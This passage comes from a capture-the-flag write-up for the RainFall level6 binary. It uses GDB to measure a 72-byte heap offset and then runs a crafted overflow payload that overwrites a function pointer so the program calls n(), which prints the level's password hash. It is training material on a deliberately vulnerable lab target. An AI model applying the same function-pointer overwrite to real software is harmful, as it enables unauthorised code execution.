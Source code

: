 Then inspect the allocated memory:

```gdb
(gdb) x/wx $esp+0x1c  # pointer to buffer
0xbffff72c: 0x0804a008
(gdb) x/wx $esp+0x18  # pointer to function pointer
0xbffff728: 0x0804a050
```

Compute the offset:

```gdb
(gdb) print 0x0804a008 - 0x0804a050
$1 = -72
```

This confirms we must overflow 72 bytes to reach and overwrite the function pointer.

---

## Step 4: Craft and Inject the Exploit Payload

We now craft a payload consisting of 72 'A' bytes to fill the buffer, followed by the address of `n()`.

```bash
level6@RainFall:~$ python -c 'print("A" * 72 + "\x54\x84\x04\x08")' > /tmp/exploit
```

Note: Running the binary via input redirection causes a crash, since no `argv[1]` is supplied:

```bash
level6@RainFall:~$ cat /tmp/exploit | ./level6
Segmentation fault (core dumped)
```

Correct usage involves injecting the payload directly as an argument:

```bash
level6@RainFall:~$ ./level6 $(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Execution jumps to `n()`, which runs the `system()` command and prints the password.

---

## Step 5: Breakpoint Verification (Optional)

To confirm this in GDB, we can set a breakpoint right before the indirect call:

```gdb
(gdb) break *0x080484ce
(gdb) run $(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')
```

Inspect the value pointed to by the overwritten function pointer:

```gdb
(gdb) x/xw 0x0804a050
0x0804a050: 0x08048454
```
